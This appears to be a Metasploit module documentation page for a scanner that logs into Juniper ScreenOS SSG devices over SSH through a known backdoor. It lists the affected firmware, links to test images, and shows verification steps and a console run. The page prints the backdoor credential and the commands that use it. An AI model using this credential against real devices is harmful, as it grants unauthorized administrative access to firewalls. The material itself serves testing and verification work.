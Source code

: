 ## Vulnerable Application

  Juniper JunOS between 6.2.0r15 to 6.2.0r18 and 6.3.0r12 to 6.3.0r20 are vulnerable.
  
  A vulnerable copy of the firmware is available for a Juiper SSG5/SSG20 (v6.3.0r19.0): [here](https://github.com/h00die/MSF-Testing-Scripts/tree/master/juniper_firmware)

  For verification purposes, an example vuln python script is also available [here](https://github.com/h00die/MSF-Testing-Scripts)

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ` use auxiliary/scanner/ssh/juniper_backdoor`
  4. Do: `set rhosts`
  5. Do: `run`
  6. You should see: `[+] 192.168.1.1:22 - Logged in with backdoor account admin:<<< %s(un='%s') = %u`

## Scenarios

  Example run against a Juniper SSG5 with vuln firmware from above link.

```
msf > use auxiliary/scanner/ssh/juniper_backdoor
msf auxiliary(juniper_backdoor) > set rhosts 192.168.1.1
rhosts => 192.168.1.1
msf auxiliary(juniper_backdoor) > set verbose true
verbose => true
msf auxiliary(juniper_backdoor) > run

[+] 192.168.1.1:22 - Logged in with backdoor account admin:<<< %s(un='%s') = %u
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
